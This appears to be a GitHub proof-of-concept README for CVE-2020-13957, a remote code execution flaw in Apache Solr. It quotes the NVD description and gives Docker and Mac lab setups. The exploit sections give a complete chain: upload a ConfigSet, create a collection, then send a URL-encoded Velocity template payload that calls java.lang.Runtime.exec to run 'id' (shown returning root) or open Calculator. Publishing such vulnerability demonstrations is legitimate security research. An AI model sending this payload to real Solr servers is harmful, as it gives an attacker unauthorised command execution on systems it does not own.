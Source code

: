 # Apache Solr RCE CVE-2020-13957

**Docker Demo**

![docker-demo](https://user-images.githubusercontent.com/56715563/100495824-8cabfd00-3192-11eb-9874-960e3c0839fb.gif)

**Mac Demo**

![mac-demo](https://user-images.githubusercontent.com/56715563/100495858-d3015c00-3192-11eb-8813-46f94fa4f9c4.gif)

## NVD CVE-2020-13957 Description

NVD [CVE-2020-13957](https://nvd.nist.gov/vuln/detail/CVE-2020-13957)

```
Apache Solr versions 6.6.0 to 6.6.6, 7.0.0 to 7.7.3 and 8.0.0 to 8.6.2 prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.
```

## Docker

### Set up PoC environment

**1. Build an image from a Dockerfile**

```
$ docker build -t cve-2020-13957 .
```

**2. Run /bin/bash in a new container**

```
$ docker run --rm -p 8983:8983 --name cve-2020-13957 -it cve-2020-13957 /bin/bash
```

**3. Start Apache Solr Cloud in the container**

```
$ ./solr start -e cloud -noprompt -force
```

### Exploit

**1. Upload a ConfigSet**

Apache Solr Guide [Upload a ConfigSet](https://lucene.apache.org/solr/guide/8_2/configsets-api.html#configsets-api)

```
$ curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

**2. Create a Collection**

Apache Solr Guide [Create a Collection](https://lucene.apache.org/solr/guide/8_2/collection-management.html#create)

```
$ curl "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myConfigSet"
```

**3. Exec Id Command**

```
$ curl "http://localhost:8983/solr/newCollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27id%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
```

**Output**

```
     0  uid=0(root) gid=0(root) groups=0(root)
```

## Mac

### Set up PoC environment

**1. Download Apache Solr**

```
$ curl -OL https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz
```

**2. Unzip**

```
$ tar -xzvf solr-8.2.0.tgz
```

**3. Start Apache Solr Cloud**

```
$ solr-8.2.0/bin/solr start -e cloud -noprompt -force
```

### Exploit

**1. Upload a ConfigSet**

Apache Solr Guide [Upload a ConfigSet](https://lucene.apache.org/solr/guide/8_2/configsets-api.html#configsets-api)

```
$ curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

**2. Create a Collection**

Apache Solr Guide [Create a Collection](https://lucene.apache.org/solr/guide/8_2/collection-management.html#create)

```
$ curl "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myConfigSet"
```

**3. Open Calc**

```
$ curl "http://localhost:8983/solr/newCollection/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set(%24x%3d%27%27)+%23set(%24rt%3d%24x.class.forName(%27java.lang.Runtime%27))+%23set(%24chr%3d%24x.class.forName(%27java.lang.Character%27))+%23set(%24str%3d%24x.class.forName(%27java.lang.String%27))+%23set(%24ex%3d%24rt.getRuntime().exec(%27open+-a+calculator%27))+%24ex.waitFor()+%23set(%24out%3d%24ex.getInputStream())+%23foreach(%24i+in+%5b1..%24out.available()%5d)%24str.valueOf(%24chr.toChars(%24out.read()))%23end"
```

## References

- https://github.com/Imanfeng/Apache-Solr-RCE#cve-2020-13957

- https://github.com/MagicPiperSec/xray-poc-cve-2020-13957
